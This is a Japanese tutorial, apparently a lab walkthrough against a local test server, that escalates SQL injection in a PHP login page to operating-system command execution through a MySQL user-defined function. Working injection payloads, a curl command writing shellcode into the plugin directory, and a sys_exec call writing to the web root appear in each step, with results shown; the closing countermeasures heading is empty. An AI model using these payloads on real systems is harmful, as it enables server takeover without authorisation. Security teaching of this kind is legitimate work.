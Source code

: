 ### 手順

#### Step 1: プラグインディレクトリを特定する

バイナリファイルをどこに書き込めば良いか調べる。

```
http://localhost:8888/mysql.php?user=&pass=' UNION SELECT @@plugin_dir,'','';--+
```

> result:
>
> id=/usr/lib/mysql/plugin/, username=, password=


#### Step 2: プラグインを書き込む

[既存のExploitコード](https://www.exploit-db.com/exploits/46249)中に含まれる `shellcode_x64` の値がコンパイル済みのバイナリデータになっている。以下の手順ではこちらの値を流用する。

下記のコマンド内のコメント部分をバイナリデータに置き換える。

GETリクエストだとURI長の制限に引っかかるため、POSTリクエストで投げる。もし、GETリクエストしか使えない場合は、バイナリファイルを分割してDB内に格納し、後から連結することで制限を回避できる。

```
curl http://localhost:8888/mysql.php \
  -d 'user=' \
  -d "pass='; SELECT BINARY /*ここに数値としてバイナリデータを入れる（例. 0x41424344）*/ into dumpfile '/usr/lib/mysql/plugin/mysql_udfsys.so';--+"
```


#### Step 3: プラグインをロードしてUDFを作成する

バイナリファイル内の `sys_exec` シンボルの関数がUDFとして実行できるようになる。

```
http://localhost:8888/mysql.php?user=&pass='; CREATE FUNCTION sys_exec RETURNS int SONAME 'mysql_udfsys.so';--+
```


#### Step 4: UDF経由でOSコマンドを実行する

コマンド実行結果が分からないので、ファイルに書き込んでコマンド実行の成功を確かめる。

```
http://localhost:8888/mysql.php?user=&pass=' UNION SELECT sys_exec('echo PWNED! > /var/www/html/udf_poc'), '', '';--+
```

```
❯ curl http://localhost:8888/udf_poc
PWNED!
```


### 対策
